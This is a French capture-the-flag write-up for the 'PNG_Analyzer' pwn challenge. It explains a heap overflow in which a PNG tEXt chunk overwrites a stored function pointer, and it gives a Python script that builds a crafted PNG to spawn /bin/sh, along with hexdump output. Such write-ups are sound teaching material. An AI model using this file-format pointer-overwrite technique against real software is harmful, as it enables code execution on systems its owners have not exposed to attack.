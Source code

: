 [PWN] PNG_Analyzer
===

Introduction
===
Pour ce challenge il faut d'abord réussir à télécharger le binaire à exploiter. 
Lorsqu'on se connecte à l'index du site on peut remarquer que le site tente de charger http://dev.img.local/troll.png. 
Or ce nom de domaine ne résouds pas. C'est notre hint. Ici on va simplement éditer notre `/etc/hosts` afin de faire pointer localement le nom de domaine vers l'ip originale.
A partir de là, dans le dossier upload, on peut trouver le binaire `png_analyzer`

Voila les info du programme:

```
~ 
❯ file ./Downloads/png_analyzer
./Downloads/png_analyzer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=94ea393d939b2f7e83e650bbe1206da5a834e15e, for GNU/Linux 3.2.0, not stripped

~ 
❯ checksec ./Downloads/png_analyzer
[*] '/home/user/Downloads/png_analyzer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

TL;DR
===
En résumé le programme va prendre en argument un fichier à analyser, vérfier que le fichier est bien un PNG, va ensuite analyser chaque bloc de donnée du PNG et affichera les meta donnée de tous les blocs de type `tEXt` avant de finir par exécuter la fonction `do_nothing` avec en paramètre le titre du bloc.

Par exemple, si nous avons dans notre PNG un bloc de type `tEXt` dont le titre est `Comment` alors le programme exécutera `do_nothing("Comment")`. La preuve en image:

![]({{site.url}}/static/upload_4a219d9ebbc5642622f99991aeacddb1.png)

Exploitation
===
Lorsqu'on reverse le binaire une chose nous saute aux yeux, le pointer vers `do_nothing` est stocké pour chaque bloc d'information dans le chunk qui lui est associé dans la `heap`.

![]({{site.url}}/static/upload_14379e33db0d981f8667232307814ae2.png)

Voici, en pseudocode, la fonction `parse_chunk` qui parse les fameux bloc PNG:


![]({{site.url}}/static/upload_5a14c7c981fb9ec115bd91481ce42059.png)

On peut remarquer que l'écriture du pointer vers `do_nothing` se fait avant le `memcpy`. 

On constate également que le programme va chercher le pointer vers `do_nothing` avant de l'exécuter:
![]({{site.url}}/static/upload_8ae580cbfd8fc90299c540388bbf84e2.png)

**Bingo !** Il suffit donc que notre chunk puisse réécrire ce pointer.

En conclusion, il faut donc:
- que notre fichier soit un PNG
- que notre fichier contienne une donnée EXIF de type `tEXt` (par exemple Comment)
- que la valeur de cette donnée réécrive le pointeur vers `do_nothing`
- que rien ne crash :D

Voilà rapidement un petit script assez moche permettant d'obtenir un fichier qui nous donnera un shell local:

```Python
#!/bin/env python3

from struct import pack
from os import system
import png


def mkImg():
    i = []
    for x in range(21):
        i.append([0,0,0,0])
    png.from_array(i, 'L').save("/tmp/test")
    buf = 'A'*0x1ffc + pack('<Q', 0x401160)
    with open('/tmp/buf', "w") as fd:
        fd.write(buf)
    system("exiftool -Comment=$(cat /tmp/buf) /tmp/test")
    with open("/tmp/test", "rb") as fd:
        content = fd.read()
    return content


def w(data):
    with open("/tmp/f", "wb") as fd:
        fd.write(data)



def main():
    data = mkImg()
    data = data[:41] + "/bin/sh\x00" + data[49:]
    w(data)



if __name__ == '__main__':
    main()


```


En bonus, un petit hexdump du fichier final et un exiftool
```
~
❯ hexdump -C /tmp/f
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 04 00 00 00 15  08 00 00 00 00 44 10 10  |.............D..|
00000020  9c 00 00 20 07 74 45 58  74 2f 62 69 6e 2f 73 68  |... .tEXt/bin/sh|
00000030  00 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |.AAAAAAAAAAAAAAA|
00000040  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
*
00002020  41 41 41 41 41 41 41 41  41 41 41 41 41 60 11 40  |AAAAAAAAAAAAA`.@|
00002030  76 b8 6c 27 00 00 00 0c  49 44 41 54 78 9c 63 60  |v.l'....IDATx.c`|
00002040  a0 13 00 00 00 69 00 01  11 3e ed a7 00 00 00 00  |.....i...>......|
00002050  49 45 4e 44 ae 42 60 82                           |IEND.B`.|
00002058
```

```
~
❯ exiftool /tmp/f
ExifTool Version Number         : 12.30
File Name                       : f
Directory                       : /tmp
File Size                       : 8.1 KiB
File Modification Date/Time     : 2021:10:18 12:29:49+02:00
File Access Date/Time           : 2021:10:18 17:04:07+02:00
File Inode Change Date/Time     : 2021:10:18 12:29:49+02:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 4
Image Height                    : 21
Bit Depth                       : 8
Color Type                      : Grayscale
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Binsh                           : AAAA[REDACTED]AAAA`.@
Image Size                      : 4x21
Megapixels                      : 0.000084
```

Conclusion
===
Un petit challenge plutot simple mais intéressant :+1: 
